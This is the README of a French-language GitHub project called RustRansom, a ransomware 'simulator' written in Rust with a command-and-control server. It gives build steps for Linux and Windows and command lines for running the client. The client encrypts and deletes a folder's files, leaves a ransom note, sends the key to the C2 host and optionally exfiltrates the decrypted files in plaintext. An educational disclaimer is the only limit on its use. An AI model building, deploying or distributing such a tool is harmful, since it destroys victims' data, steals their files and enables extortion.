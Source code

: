 # RustRansom

![RustRansom Banner](RustRansom.PNG)

RustRansom est un simulateur de ransomware écrit en Rust, développé à des fins éducatives et de démonstration. Le projet se compose de deux parties principales :

- **Client RustRansom**  
  Ce programme chiffre les fichiers d’un répertoire cible en utilisant AES-256-GCM, crée un fichier `readme.txt` avec la clé de récupération et des instructions, envoie la clé au serveur de Command & Control (C2) et, en option, exfiltre les fichiers chiffrés (les déchiffre en mémoire avant de les envoyer en clair).

- **Serveur C2 (RustRansom C2 Server)**  
  Un serveur HTTP léger basé sur Warp qui reçoit la clé de chiffrement et les fichiers exfiltrés. Les fichiers reçus sont sauvegardés dans le dossier `exfiltrated_files`.

## Caractéristiques

- **Chiffrement sécurisé** : Utilisation d'AES-256-GCM pour chiffrer les fichiers.
- **Déchiffrement** : Récupération des fichiers via la clé de chiffrement.
- **Exfiltration** : En option, les fichiers chiffrés sont déchiffrés en mémoire et envoyés en clair au serveur C2.
- **Création de Readme** : Génération d'un fichier `readme.txt` dans le répertoire cible, incluant une bannière, la clé de récupération et des instructions pour déchiffrer les fichiers.
- **Multi-plateforme** : Compatible Windows et Linux (via compilation native ou cross-compilation).

## Prérequis

- [Rust](https://www.rust-lang.org/tools/install) (version stable)
- (Optionnel) Pour cross-compiler vers Windows depuis Linux :
  ```sh
  rustup target add x86_64-pc-windows-gnu
  sudo apt-get install gcc-mingw-w64-x86-64
  ```

## Installation et Compilation

Clonez le projet :

```bash
git clone https://github.com/votre-utilisateur/rustransom.git
cd rustransom
```

### Compilation pour Linux

```bash
cargo build --release
```

Les exécutables se trouvent dans `target/release/` :
- Client : `rustransom_client`
- Serveur : `rustransom_server`

### Compilation pour Windows (cross-compilation depuis Linux)

```bash
rustup target add x86_64-pc-windows-gnu
cargo build --release --target x86_64-pc-windows-gnu
```

Les exécutables Windows seront dans `target/x86_64-pc-windows-gnu/release/` :
- Client : `rustransom_client.exe`
- Serveur : `rustransom_server.exe`

## Utilisation

### Client RustRansom

#### Chiffrement

Pour chiffrer un dossier et envoyer la clé au serveur C2 :

```bash
./rustransom_client -e -t /chemin/vers/dossier -s 127.0.0.1 -p 8080 -x
```

Options :
- `-e` : Active le mode chiffrement.
- `-t <dossier>` : Répertoire cible.
- `-s <C2_IP>` : Adresse IP du serveur C2 (par défaut 127.0.0.1).
- `-p <PORT>` : Port du serveur C2 (par défaut 8080).
- `-x` : Active l'exfiltration (les fichiers sont déchiffrés en mémoire et envoyés en clair).
- `-c` : Conserve une copie des fichiers originaux après chiffrement.

Pendant le chiffrement, le client :
- Chiffre tous les fichiers du dossier cible (les fichiers originaux sont supprimés si `-c` n'est pas spécifié).
- Génère un fichier `readme.txt` dans le dossier cible qui contient :
  - La bannière ci-dessus,
  - Le message : "Tous vos fichiers ont été chiffrés par RustRansom! Mais ne vous inquiétez pas, vous pouvez toujours les récupérer avec la clé de récupération.",
  - La clé de récupération,
  - La commande à utiliser pour déchiffrer les fichiers,
  - La liste des fichiers chiffrés.
- Envoie la clé de récupération au serveur C2.
- Si `-x` est activé, chaque fichier chiffré est déchiffré en mémoire et envoyé en clair au serveur C2 via l'endpoint `/files/<nom>`.

#### Déchiffrement

Pour déchiffrer les fichiers dans un dossier :

```bash
./rustransom_client -d -t /chemin/vers/dossier -k <clé_de_récupération>
```

Options :
- `-d` : Active le mode déchiffrement.
- `-t <dossier>` : Répertoire cible.
- `-k <clé>` : Clé de récupération (format hexadécimal, 64 caractères).

#### Affichage de l'aide

```bash
./rustransom_client -h
```

### Serveur C2 (RustRansom C2 Server)

Pour lancer le serveur C2 :

```bash
./rustransom_server -i 0.0.0.0 -p 8080
```

Options :
- `-i <IP>` : Adresse IP sur laquelle écouter.
- `-p <PORT>` : Port d'écoute.

Pour afficher l'aide :

```bash
./rustransom_server -h
```

## Avertissement

Ce projet est destiné à des fins éducatives uniquement. Son utilisation non autorisée ou malveillante est strictement interdite. Utilisez-le dans un environnement de test et obtenez toujours les autorisations nécessaires avant d'effectuer des tests sur des systèmes réels.

## Contribuer

Les contributions sont les bienvenues ! Veuillez ouvrir une issue ou soumettre une pull request pour proposer des améliorations ou des corrections.

## Licence

Ce projet est sous licence MIT. Consultez le fichier [LICENSE](LICENSE) pour plus de détails.
